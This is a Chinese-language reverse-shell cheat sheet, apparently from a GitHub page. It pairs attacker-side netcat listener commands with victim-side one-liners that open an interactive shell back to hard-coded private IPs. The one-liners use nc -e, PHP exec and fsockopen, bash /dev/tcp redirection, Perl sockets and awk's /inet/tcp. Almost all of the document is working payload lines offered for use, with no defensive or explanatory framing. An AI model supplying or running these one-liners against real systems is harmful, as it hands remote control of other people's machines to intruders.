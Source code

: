 ### nc反弹shell

需要目标主机安装了nc

```bash
攻击者：nc -lvp 4566

受害者：nc -e /bin/bash 192.168.239.128 4566
```

### php反弹

首先最简单的一个办法，就是使用php的exec函数执行反弹shell
（需要php关闭safe_mode选项，才可以使用exec函数）

```
攻击者：nc -nvlp 9875

受害者：php -r 'exec("/usr/bin/bash -i >& /dev/tcp/192.168.239.128/9875 0>&1");'
```

一些变形

```bash
攻击者：nc -nvlp 4986

php -r '$sock=fsockopen("192.168.239.128",4986);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### exec反弹

```
攻击者：nc -nvlp 5623

受害者：0<&196;exec 196<>/dev/tcp/192.168.239.128/5623; sh <&196 >&196 2>&196
```

### perl反弹

```
攻击者：nc -nvlp 5623

受害者：perl -e 'use Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### awk反弹

```
攻击者：nc -nvlp 5623

受害者：awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
